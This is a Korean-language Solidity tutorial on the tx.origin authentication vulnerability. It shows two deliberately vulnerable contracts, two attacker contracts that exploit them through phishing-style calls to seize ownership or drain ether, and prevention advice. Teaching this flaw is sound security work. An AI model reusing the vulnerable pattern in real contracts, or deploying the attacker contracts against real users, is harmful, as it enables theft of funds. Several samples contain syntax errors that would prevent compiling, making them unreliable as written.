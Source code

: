 # Tx.origin Authentication (소유자 인증)

- 글로벌 변수 tx.origin은 전체 호출 스택을 가로지르고 원래 호출을 보낸 계정의 주소를 포함합니다.
- 스마트 컨트랙트에서 이 변수를 인증에 사용하면 컨트랙트가 피싱(phishing)같은 공격에 취약해 집니다.

**취약점**

- tx.origin 변수를 사용하여 사용자에게 권한을 부여하는 컨트랙트는 일반적으로 사용자로 하여금 취약한 컨트랙트에서 인증된 작업을 수행하도록 속일 수 있는 피싱 공격에 취약합니다.

<br>

- 참고 **tx.origin과 msg.sender**
    - tx.origin : 트랜잭션을 처음 시작한 계정(항상 EOA)
    - msg.sender : 트랜잭션을 처음 시작한 계정 or 중간에 컨트랙트를 경유할 경우 컨트랙트 계정으로 바뀔 수 있음
    
        ## **tx.origin == msg.sender (x)**
    
        tx.origin과 msg.sender가 동일하다고 생각하고 tx.origin을 권한 검사에 사용하는것은 위험합니다.   

<br>
<br>

**보안 취약 컨트랙트 1**

```solidity
//SPDX-License-Identifier:MIT
pragma solidity ^0.8.0;

contract MyContract {
    
    address owner;

    constructor() {
        owner = msg.sender;
    }

    modifier onlyOwner {
        require(owner == tx.origin, "Caller is not the onwner");
        _;
    }

    function transfer(adress _addr) {
        _addr.tansfer(this.balance);
    }

    function transferOwnership(address newOwner) public onlyOwner {
        owner = newOwner;
    }
}
```

- transferOwnership() 함수를 실핼할 수 있는 것은 onlyOwner를 통과한 계정으로 제한됩니다.
- 그런데 require문에서는 owner를 tx.origin과 비교하고 있습니다.
- 공격자는 다음과 같은 컨트랙트를 작성할 수 있습니다.

<br>
<br>

**공격자 컨트랙트 1**

```solidity
//SPDX-License-Identifier:MIT
pragma solidity ^0.8.0;

contract Attacker {
    address badUser;
    MyContract target;

    constructor(address _addr) {
        badUser = msg.sender;
        target = MyContract(_addr);
    }

    receive() external payable {
        target.transferOwnership(badUser);
    }
}
```

- 공격자가 MyContract의 배포 계정이 Attacker 컨트랙트에게 이더를 전송하도록 유도하여 성공한다면 receice() 함수가 받으면서 transferOwnership()이 실행될 것이고, tx.origin은 배포 계정이 됩니다.
- 따라서 modifier onluOwner를 무사히 통과하여 파라미터로 전달된 badUser계정이 owner가 됩니다.

![https://github.com/lhn1455/TIL/raw/main/Solidity/Solidity-Docs/img/txorigin.png](https://github.com/lhn1455/TIL/raw/main/Solidity/Solidity-Docs/img/txorigin.png)


<br>
<br>

**보안 취약 컨트랙트 2**

```solidity
contract Phishable {
    address owner;

    constructor (address _owner) {
        owner = _owner;
    }

    function () public payable {} // collect ether

    function withdrawAll(address _recipient) public {
        requir(tx.origin == owner); // 소유자 인증 후 수금자에게 모든 ether를 전송
        _recipient.transfer(this.balance);
    }
}
```

- require문 코드로 소유자를 인증 후 수금자에게 모든 이더를 송금하는 컨트랙트 입니다.


<br>
<br>

**공격자 컨트랙트 2**

```solidity
import "Phishable.sol"

contract AttackContract {
    Phishable phisableContract;
    address attacker; //송금 받을 공격자 계정

    constructor (Phishable _phishableContract, address _attackerAddress) {
        phisableContract = _phishableContract;
        attacker = _attackerAddress;
    }

    function () payble {
        phisableContract.withdrawAll(attacker);
    }
}
```

- 공격자는 Phishable 컨트랙트를 자신의 주소로 위장하여 owner를 변경하고 ether를 탈취할 수 있습니다.


<br>
<br>

**예방 기법**

- tx.origin으로 계약을 승인하면 안됩니다.
- tx.origin을 이용할 경우 `require(tx.origin == msg.sender);` 이렇게 구현해야 합니다.